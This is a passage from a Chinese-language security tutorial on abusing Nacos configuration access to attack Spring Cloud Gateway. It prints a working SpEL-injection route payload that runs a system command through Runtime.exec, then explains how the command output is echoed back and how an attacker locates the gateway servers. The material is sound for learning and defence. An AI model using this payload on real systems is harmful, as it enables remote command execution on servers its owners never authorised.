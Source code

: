 其中`spring.cloud.nacos.config`下

-   name 代表的是要在 nacos 中创建的配置文件的 DataID。
-   file-extension 则是 nacos 中所创建的配置文件的格式。
-   group 则代表 nacos 中配置文件对应的组。
-   而 server-addr 则是 nacos 的访问地址

其中发送的添加路由的数据包中的数据段如下：

```bash
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

先理解一下这段 POC 的含义：

-   id 字段代表的是路由的 ID 标识
    
-   filters 则是 Spring Cloud Gateway 中路由配置的过滤器：
    
    这里指定了过滤器`AddResponseHeader`，含义为对匹配到的请求的响应包中添加一个自定义的 Header，其中名称为 Result，值为该漏洞利用的`SpEL`表达式，执行了命令`id`。
    
    也就是说当一个请求匹配到该路由时，返回包中应该会存在一个 Header 返回了我们定义的键值，利用成功的话会得到：`result: uid=0(root) gid=0（... ...）`
    

但 POC 中并未定义路由的匹配规则，因为开启 actuator/gateway 的话只需要刷新一下路由然后直接查看路由配置就可以得到命令执行的回显了

**2、利用方式**

如果拿到了一个 Nacos 权限，如何进行有效的信息收集以及利用？

以上面搭建的环境为例，我们搭建了一个 Nacos，一个 Spring Cloud Gateway 网关，以及一个微服务 Service-provider，

进入到 nacos 管理页面，翻阅配置时候发现有 Spring Cloud Gateway 相关的配置，那么第一步可以先查看该配置项都有哪些服务器在监听？监听的服务器基本可以肯定就是运行了 Spring Cloud Gateway 的服务器，可以在配置文件的更多中点击**监听查询**：

[![](assets/1700442594-42d979044ef5e67c2a10b39432051a2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155514-ce96b76c-85e7-1.png)
